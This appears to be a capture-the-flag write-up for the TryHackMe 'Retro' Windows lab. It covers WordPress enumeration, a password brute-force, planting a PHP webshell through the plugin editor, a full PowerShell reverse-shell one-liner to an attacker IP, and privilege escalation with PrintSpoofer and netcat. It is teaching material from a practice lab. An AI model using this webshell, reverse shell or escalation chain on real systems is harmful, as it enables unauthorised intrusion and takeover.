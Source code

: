 # **Retro | THM**

***

## **Difficulty = Hard**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/3c846113-3edb-480a-a52c-06b6d171cfc6)

***

Running our nmap scan we have 2 open ports


```bash
# Nmap 7.94SVN scan initiated Mon Mar 11 06:41:24 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.97.2
Nmap scan report for 10.10.97.2
Host is up (0.15s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-03-11T05:43:47+00:00
|_ssl-date: 2024-03-11T05:43:51+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-10T05:18:49
| Not valid after:  2024-09-09T05:18:49
| MD5:   8d7a:1577:c616:ae1a:6364:e666:f0ba:53d0
|_SHA-1: d697:44ba:89ed:4056:f469:9352:05df:7214:d874:ea37
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 11 06:43:52 2024 -- 1 IP address (1 host up) scanned in 147.74 seconds
```



Navigating to port 80 we have a default windows IIS page 


![](https://i.imgur.com/ZrcU03H.png)


Since we don't have much to enumerate rather than port 80/HTTP, i decided to fuzz for directories and found `/retro`

![](https://i.imgur.com/qZBHJMR.png)



Navigating to `/retro` we found a wordpress website


![](https://i.imgur.com/kLcNXUl.png)

Enumerating this site using `wpscan` there was nothing more interesting than finding a username called **wade**

```bash
❯ wpscan --url http://10.10.97.2/retro/ -e u
```

![](https://i.imgur.com/DLJ3qAN.png)


Since we have a username let bruteforce the login page, we first need to use the `cewl` tool to generate a password wordlist from the site it self so we can use it against the username we got

```bash
❯ cewl -m 5 http://10.10.97.2/retro/ > pass.txt
```

![](https://i.imgur.com/rcu97nj.png)


Then we can bruteforce, as shown below we found a valid credentials for the user `wade`


```bash
❯ wpscan --url http://10.10.97.2/retro/ -U wade -P ./pass.txt --password-attack wp-login
```



![](https://i.imgur.com/WLBIFjJ.png)


```
wade:parzival
```


We can then login via wordpress with the username and password we have gotten

![](https://i.imgur.com/aShbHqz.png)


Now to get a **reverse shell**, navigate to **Plugins --> Plugins Editor**



![](https://i.imgur.com/FOI3vVu.png)

Then overwrite the `absolute-relative-urls.php` file and paste in your own PHP reverse shell as this is the file that will be called when we want to get the reverse shell, then scroll down and click on **Update** to complete this step


![](https://i.imgur.com/EFxEgsc.png)



Now go ahead and start up your listener and navigate to . This should trigger your reverse shell, Note that as shown below i used `rlwrap` for automatic windows shell stabilization


![](https://i.imgur.com/PzgjvSn.png)
![](https://i.imgur.com/XQrqnX6.png)



However as seen above, looks like our shell is been terminated, well this is probably cos' we are using a PHP cmd for the windows host which isn't that stable, we can therefore upload a webshell and use powershell to get a reverse shell, save the below code in the `.php` plugin and navigate to the website again


```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```


However i noticed that the plugin changes, so make sure to confirm the URL path also :P

![](https://i.imgur.com/PWLyX12.png)


Then get a reverse shell using the following powershell command, make sure to change the IP and port to yours irrespectively

```powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.11.69.221', 4444);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```


![](https://i.imgur.com/Du9Rrds.png)


Running `whoami /priv` we can see we have the **SeImpersonatePrivilege** enabled, this role determines which programs are allowed to impersonate a user or other specified account and perform actions on behalf of the user. we can go ahead and use this privilege to get a shell as administrator

![](https://i.imgur.com/ih3wy3s.png)


Transfer [nc64.exe](https://github.com/sec-fortress/Exploits/blob/main/nc64.exe) and [PrintSpoofer32.exe](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe) to target machine and run the below command also make sure to start your listener before doing this


```bash
# start listener
sudo nc -lvnp 443

# start exploit
.\PrintSpoofer32.exe -c "c:\windows\temp\nc64.exe 10.11.69.221 443 -e cmd"
```



![](https://i.imgur.com/A24bHmY.png)



GG 😄

